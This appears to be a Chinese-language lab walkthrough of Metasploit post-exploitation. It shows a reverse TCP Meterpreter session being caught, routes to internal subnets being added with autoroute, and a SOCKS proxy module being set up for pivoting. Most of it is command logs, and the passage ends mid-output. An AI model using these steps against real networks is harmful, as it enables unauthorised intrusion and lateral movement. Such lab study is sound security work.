 ```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 
[*] Sending stage (200262 bytes) to 192.168.220.138
[*] Meterpreter session 3 opened (192.168.220.137:9999 -> 192.168.220.138:6500 ) at 2022-08-14 12:45:28 -0400

meterpreter > 
```

添加路由

> 手工添加：run autoroute -s 192.168.21.0/24		#添加路由
> 		 		run autoroute -p									#查看路由
> 自动添加：run post/multi/manage/autoroute

> 查看路由表：run autoroute -p

```
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against STU1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 192.168.52.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.220.0/255.255.255.0 from host's routing table.
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   169.254.0.0        255.255.0.0        Session 1
   192.168.52.0       255.255.255.0      Session 1
   192.168.220.0      255.255.255.0      Session 1
   
meterpreter > background 
[*] Backgrounding session 1...
```



然后配置代理

```bash
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

```